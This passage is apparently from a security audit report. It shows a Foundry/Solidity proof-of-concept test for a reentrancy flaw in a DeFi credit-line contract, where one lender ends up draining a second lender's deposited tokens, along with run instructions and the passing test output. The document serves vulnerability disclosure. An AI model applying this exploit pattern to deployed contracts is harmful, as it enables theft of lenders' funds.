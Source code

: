 ```
        tokenUsed.mint(address(lender2), lenderTwoAmount);

        // add support of the token to the SimpleOracle
        oracle.changePrice(address(tokenUsed), 1000 * 1e8); // 1000 USD

        // Borrowers adds credit line from lender2
        vm.startPrank(borrower);
        line.addCredit(dRate, fRate, lenderOneAmount, address(tokenUsed), address(lenderOneContract));
        vm.stopPrank();

        // LenderOne adds credit line
        vm.startPrank(lenderOneController);
        lenderOneContract.addCredit(dRate, fRate, lenderOneAmount, address(tokenUsed));
        vm.stopPrank();

        //borrow 1 ether
        bytes32 id_first = line.ids(0);
        vm.startPrank(borrower);
        line.borrow(id_first, lenderOneAmount);
        vm.stopPrank();
        
        // Borrowers adds an additional credit line from lender2
        vm.startPrank(borrower);
        line.addCredit(dRate, fRate, lenderTwoAmount, address(tokenUsed), address(lender2));
        vm.stopPrank();

        // Lender2 adds an additional credit line from  
        vm.startPrank(lender2);
        tokenUsed.approve(address(line), lenderTwoAmount);
        line.addCredit(dRate, fRate, lenderTwoAmount, address(tokenUsed),  address(lender2));
        vm.stopPrank();

        // repay all debt to lender 1
        vm.startPrank(borrower);
        tokenUsed.approve(address(line), lenderOneAmount);
        line.depositAndRepay(lenderOneAmount);
        line.close(id_first);
        vm.stopPrank();
        
        //validate that lender1 was able to steal lender2 tokens
        assert(tokenUsed.balanceOf(address(lenderOneContract)) == lenderOneAmount + lenderTwoAmount);
    }
```

To run the POC execute:
`forge test -v`

Expected output:

    [PASS] test_reentrancy() (gas: 1636410)
    Test result: ok. 1 passed; 0 failed; finished in 1.71ms
